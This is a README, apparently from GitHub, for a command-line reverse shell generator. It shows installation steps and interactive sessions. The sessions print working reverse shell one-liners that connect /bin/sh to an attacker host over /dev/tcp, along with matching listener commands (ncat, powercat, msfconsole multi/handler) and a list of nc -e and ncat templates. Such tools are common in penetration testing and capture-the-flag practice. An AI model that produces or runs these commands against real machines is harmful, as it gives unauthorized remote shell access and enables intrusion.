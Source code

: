 # General Information

A command-line reverse shell generator, 
if you got tired of visiting https://www.revshells.com/ every time you need to pop up a reverse shell,
and you want to have everything in your console.


# Installation

```bash
apt install python3 python3-pip
git clone https://github.com/cyberhexe/reverse-shell-generator
cd reverse-shell-generator
pip3 install -r requirements.txt
```

Or using PyPI:
```bash
apt install python3 python3-pip
pip3 install revshell-generator
```

# Usage

### Printing the script arguments

`python3 revshellgenerator.py -h`

### Running the reverse shell generator

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> help
Documented commands (type help <topic>):
========================================g
et  help  ip  list  port  shell
>> help list
list [ reverse | listeners | shells | msfvenom ]
List the available templates, shells or listener commands.
E.g.: list shells
>> help get
get [ reverse | listeners | shells | msfvenom ] [index]
Generate the actual command with the given options.
The first parameter specifies which type of the command it's going to be.
The [index] parameter specifies which template should be used for generating the command.E.g.: get reverse 0
Use 'list' command for getting the index.
>>
```

### Setting reverse IP address and port

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> ip 192.168.45.19
The IP address has been set as '192.168.45.19'
>> port 4200
The port has been set as '4200'
>>  
```

Alternatively, you can provide the IP/port as script arguments for not prompting them later:
`python3 revshellgenerator.py --ip 192.168.45.19 --port 4200`

### Listing available reverse shell commands
```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> list reverse
0 - Bash -i [linux | mac]
1 - Bash 196 [linux | mac]
2 - Bash read line [linux | mac]
3 - Bash 5 [linux | mac]4 - Bash udp [linux | mac]
5 - nc mkfifo [linux | mac]6 - nc -e [linux | mac]
7 - nc.exe -e [windows]8 - nc -c [linux | mac]
9 - ncat -e [linux | mac]10 - ncat.exe -e [windows]
... truncated ...
>> 
```

*The indexes are used while choosing the command template.*

### Listing available listener commands
```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> list listeners
0 - nc
1 - ncat
2 - ncat (TLS)
3 - rlwrap + nc4 - rustcat
5 - rustcat + Command History6 - pwncat
7 - windows ConPty8 - socat
9 - socat (TTY)
10 - powercat
11 - msfconsole
>>
```

### Generating reverse shell commands

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> ip 192.168.45.19
The IP address has been set as '192.168.45.19'
>> port 4200
The port has been set as '4200'
>> get reverse 0
/bin/sh -i >& /dev/tcp/192.168.45.19/4200 0>&1
>> get reverse 1
0<&196;exec 196<>/dev/tcp/192.168.45.19/4200; /bin/sh <&196 >&196 2>&196
>> get reverse 2
exec 5<>/dev/tcp/192.168.45.19/4200;cat <&5 | while read line; do $line 2>&5 >&5; done
>>  
```

Alternatively, you can provide the IP/port as script arguments and call the `get reverse` command straightaway
```bash
$ python3 revshellgenerator.py --ip 192.168.45.19 --port 4200
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> get reverse 0
/bin/sh -i >& /dev/tcp/192.168.45.19/4200 0>&1
>> get reverse 1
0<&196;exec 196<>/dev/tcp/192.168.45.19/4200; /bin/sh <&196 >&196 2>&196
>> get reverse 2
exec 5<>/dev/tcp/192.168.45.19/4200;cat <&5 | while read line; do $line 2>&5 >&5; done
>>  
```

### Generating listeners commands
```bash
$ python3 revshellgenerator.py --ip 192.168.45.19 --port 5050
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> get listeners 10
powercat -l -p 5050
>> get listeners 1
ncat -lvnp 5050
>> get listeners 11
msfconsole -q -x "use multi/handler; set payload {payload}; set lhost 192.168.45.19; set lport 5050; exploit"  

```